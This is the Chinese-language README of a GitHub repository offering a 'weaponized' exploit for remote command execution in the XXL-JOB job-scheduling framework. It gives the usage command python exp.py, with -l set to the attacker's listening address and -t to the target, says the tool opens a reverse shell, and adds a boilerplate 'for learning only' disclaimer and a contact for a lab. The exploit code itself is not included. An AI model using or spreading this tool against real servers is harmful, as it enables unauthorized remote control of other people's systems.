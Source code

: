 # XXL-JOB-RCE
工具介绍：
-
```
武器化工具：

    工具一键执行 xxl-job框架的远程命令执行 反弹shell
```
使用方法：
-
```
python exp.py -l xxx.xxx.xxx.xxx:port -t http://xxx.xxx.xxx.xxx

-l 后输入自己服务器的监听地址
-t 后输入目标地址
```
效果图：
-
![image](https://github.com/beoutnaprun/XXL-JOB-RCE/assets/133112969/fa07c773-9628-44e7-a356-4a716f68d2b6)

免责声明
=
```
1、软件仅供个人学习与交流使用，严禁用于商业以及不良用途。

2、如有发现任何商业行为以及不良用途，软件作者有权撤销使用权。

3、使用本软件所存在的风险将完全由其本人承担，软件作者不承担任何责任。

4、软件注明之服务条款外，其它因不当使用本软件而导致的任何意外、疏忽、合约毁坏、诽谤、版权或其他知识产权侵犯及其所造成的任何损失，本软件作者概不负责，亦不承担任何法律责任。

5、对于因不可抗力或因黑客攻击、通讯线路中断等不能控制的原因造成的服务中断或其他缺陷，导致用户不能正常使用，软件作者不承担任何责任，但将尽力减少因此给用户造成的损失或影响。

6、本声明未涉及的问题请参见国家有关法律法规，当本声明与国家有关法律法规冲突时，以国家法律法规为准。 

7、本软件相关声明版权及其修改权、更新权和最终解释权均属软件作者所有。
```

联系作者
=
欢迎关注HexaGon实验室进行相关留言

![公众号二维码](https://github.com/beoutnaprun/XXL-JOB-RCE/assets/133112969/e00030f6-2c39-4a99-a571-849193cc2dc3)
